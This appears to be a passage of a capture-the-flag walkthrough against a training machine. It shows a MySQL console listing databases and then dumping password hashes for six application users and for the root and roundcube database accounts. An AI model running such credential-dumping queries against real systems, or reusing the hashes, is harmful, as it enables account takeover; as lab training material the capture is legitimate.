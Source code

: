 ```console
| ehks               | blog                                  |
| ehks               | comment                               |
| ehks               | user                                  |
| mysql              | columns_priv                          |
| mysql              | db                                    |
| mysql              | func                                  |
| mysql              | help_category                         |
| mysql              | help_keyword                          |
| mysql              | help_relation                         |
| mysql              | help_topic                            |
| mysql              | host                                  |
| mysql              | proc                                  |
| mysql              | procs_priv                            |
| mysql              | tables_priv                           |
| mysql              | time_zone                             |
| mysql              | time_zone_leap_second                 |
| mysql              | time_zone_name                        |
| mysql              | time_zone_transition                  |
| mysql              | time_zone_transition_type             |
| mysql              | user                                  |
| roundcubemail      | cache                                 |
| roundcubemail      | contacts                              |
| roundcubemail      | identities                            |
| roundcubemail      | messages                              |
| roundcubemail      | session                               |
| roundcubemail      | users                                 |
+--------------------+---------------------------------------+
42 rows in set (0.00 sec)

mysql> select * from ehks.user;
+---------+-----------+----------------------------------+
| user_id | user_name | user_pass                        |
+---------+-----------+----------------------------------+
|       1 | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 |
|       2 | achen     | b46265f1e7faa3beab09db5c28739380 |
|       3 | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 |
|       4 | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 |
|       5 | sorzek    | e0a23947029316880c29e8533d8662a3 |
|       6 | ghighland | 9f3eb3087298ff21843cc4e013cf355f |
+---------+-----------+----------------------------------+
6 rows in set (0.00 sec)

mysql> select Host, User, Password from mysql.user;
+--------------------+-----------+------------------+
| Host               | User      | Password         |
+--------------------+-----------+------------------+
| localhost          | root      | 30599f1725b9f8a2 |
| ctf4.sas.upenn.edu | root      | 30599f1725b9f8a2 |
| ctf4.sas.upenn.edu |           |                  |
| localhost          |           |                  |
| localhost          | roundcube | 5d2e19393cc5ef67 |
+--------------------+-----------+------------------+
5 rows in set (0.00 sec)

```
